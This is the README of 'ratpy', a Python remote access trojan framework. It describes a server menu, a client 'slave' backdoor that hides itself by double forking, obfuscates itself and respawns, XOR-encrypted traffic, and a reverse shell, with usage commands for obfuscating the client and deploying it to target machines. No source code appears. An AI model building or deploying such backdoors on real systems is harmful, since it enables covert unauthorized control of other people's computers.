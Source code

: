 # ratpy
### another snake friendly rat backbone
<p align="left">
<img src="imgs/ratpy.png" width="320" height="240">
</p>

### _________________________________________________________________________
## Architecture
````
This is a backbone build that can be extended for specific uses
Start server listening up to 20 connections with a simple menu interface in the terminal
Before deploying and starting client change the port and server ip address for your server 
Client will background by forking twice and killing parents and trying to obfuscate itself (can be improved for your choice of system)
If client fails it will respawn forever which might crash the system after a while but wont start on reboot (can be added)
Encryption is done with simple xor of bytearray of data with the key
Which are verified with a TCP like handshake channel or the exchange will be restarted
Once connection is estabilished we have a default set of commands, which can be expanded, to perform basic machine tasks and drop a shell
````
### Todo

````
:: Server side logger
:: Client side OS enumeration
````

### Master
````
* interface - server menu and server cli scripting
* threadpool - running paralel code to serve menu while waiting and handling connections set to up to 20 by default
* tools - backdoor :: encrypted reverse shell 30s RAT connection with respawn and client-side
* utils - encryption methods and connection methods
> cd master && python3 main.py <server_ip_addr> <rat_port> <shell_port>
````

### Slave
````
* interface - client cli scripting
* tools - RAT client backdoor
* utils - encryption methods and connection methods
> server :: python3 obfuscator.py && <copy ratpy.py to slave machine>
> python3 ratpy.py <server_ip_addr> <rat_port>
````

### _________________________________________________________________________
## Disclaimer
The proggie has plenty of debug functions to help understand and debug it, the main utility of this project is
provide a prototype to build something more interesting in a different language, add some tools easily to experiement or get something quickly
tested and educational purposes. This is just a backbone which can be expanded by adding more tools to the interface and tools dir.
> See license in LICENSE [GPL3.0]
